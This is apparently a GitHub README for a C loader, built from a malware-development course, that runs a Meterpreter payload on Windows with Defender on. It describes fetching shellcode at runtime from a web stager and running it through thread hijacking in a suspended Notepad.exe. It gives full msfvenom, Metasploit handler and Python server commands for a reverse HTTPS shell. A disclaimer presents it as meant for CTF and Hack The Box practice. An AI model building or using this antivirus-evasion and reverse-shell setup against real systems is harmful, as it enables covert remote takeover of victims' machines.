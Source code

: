 # 🎯 Meterpreter Payload exectuion

A lightweight Windows C application developed using **Visual Studio**. The purpose of this project is to have a Meterpreter payload execute with Defender on. This approach will bypass defender but some of the functionalilties in a Meterpreter payload will still be flagged. The purpose of this was to use this on harder Hack The Box machines that may have defender enabled. This spolution is a output of MALDEV Academy, it has been a great course and helped me build this up to this point. 

---
⚠️ **Disclaimer:** This project is for educational purposes only. It is designed to help individuals understand how malware operates so they can better defend against it. Its intended purpose is for Hack the Box or CTF-like events. 

## Approach

- Utilize a web stager to host the raw Meterpreter Binary. This fecthes the shell code at runtime and will avoid some common signtures by not storing the shell code on disk.
- I then create a suspended process "Notepad.exe" and then hijack a thread of that process to execute the shell code


## 🚀 Getting Started

This is designed to be a web cradle. This exe will fetch your payload at run time then call back with a Meterpreter payload on a different port. Steps below are for setup


### 🌱 Kali setup

1. Build the Payload 
``` bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.216.130 LPORT=8000 -f raw exitfunc=process --bad-chars '\x00' -o Meterpreter_Payload
# Change the LHOST and PORT for you local machine that is hosting metasploit
```

2. Open Metasploit


 ```bash
# in a different terminal setup metaploit below
msfconsole
use multi/handler
#set the lhost, lport, and payload to match the command above
 ```
3. Setup the python server

``` bash
# in the same directory as the paylaod and a differnt terminal as Metasploit run the following commands
python3 -m http.server 8080
``` 

4. Below is a screenshot of what your terminal should look like

![alt text](image.png)


### 🛠️ Build Instructions

1. Clone the repository:

2. Open the `.sln` file in **Visual Studio**

    - Change the IP and Port for you kali machine. Make sure the port used is the one hosting the python server.

3. Build the project:
    - Select **Build > Build Solution** (or press `Ctrl+Shift+B`)
    - Set build mode to `Debug` or `Release`

4. Run the executable from Visual Studio

5. Below are screenshots of the output

- Executing the payload on the target
![alt text](image-1.png)

- A callback then a Meterpreter shell
![alt text](image-2.png)
